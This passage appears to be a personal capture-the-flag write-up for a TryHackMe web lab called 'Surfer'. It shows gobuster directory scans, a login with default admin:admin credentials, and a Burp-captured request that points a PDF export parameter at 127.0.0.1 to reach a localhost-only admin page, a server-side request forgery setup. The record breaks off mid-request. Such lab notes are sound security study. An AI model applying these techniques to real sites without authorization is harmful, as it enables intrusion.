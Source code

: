 ```sh
sami@bt:~/Documents/THM/CTFs/surfer$ gobuster dir -u http://surfer.thm/internal -w /usr/share/seclists/Discovery/Web-Content/big.txt -q -o gobuster_results_internal.txt -x txt,php,html,js -t 20
/admin.php            (Status: 200) [Size: 39]
```
### Level 2 Dir scan surfer(.)thm/vendor/
```sh
sami@bt:~/Documents/THM/CTFs/surfer$ gobuster dir -u http://surfer.thm/vendor -w /usr/share/seclists/Discovery/Web-Content/big.txt -q -o gobuster_results_vendor.txt -x txt,php,html,js -t 20
```
## surfer(.)thm/login.php 
![[Pasted image 20221125225959.png]]
### Notes
- Using `admin:admin`
- Access obtained
![[Pasted image 20221125232830.png]]
- Checking out the _Recent Activity_ we see `/internal/admin.php` that was already discovered in our dir scan. 
- Notice the `Export to PDF` button. We'll test it in [[BurpSuite]]
## surfer(.)thm/internal/admin.php
```html
This page can only be accessed locally.
```
# Webapp Analysis using [[BurpSuite]]
## Export to PDF Button
```http
POST /export2pdf.php HTTP/1.1
Host: surfer.thm
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://surfer.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://surfer.thm/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ee0e710c62bc20b8a1fb6b0e0974698a
Connection: close

url=http%3A%2F%2F127.0.0.1%2Fserver-info.php
```
### Notes
- `url=http%3A%2F%2F127.0.0.1%2Fserver-info.php` 
- ![[Pasted image 20221126000251.png]]
- We've obtained a PDF document that pull data from `server-info.php` that can only be accessed locally by the localhost (the target/victim host).
- Therefore, in order to obtain further info from `/internal/admin.php` we need to modify the request in [[BurpSuite]] or in Inspect Elements from the browser and send it.
## /internal/admin.php locally through Export to PDF
```http
POST /export2pdf.php HTTP/1.1
Host: surfer.thm
```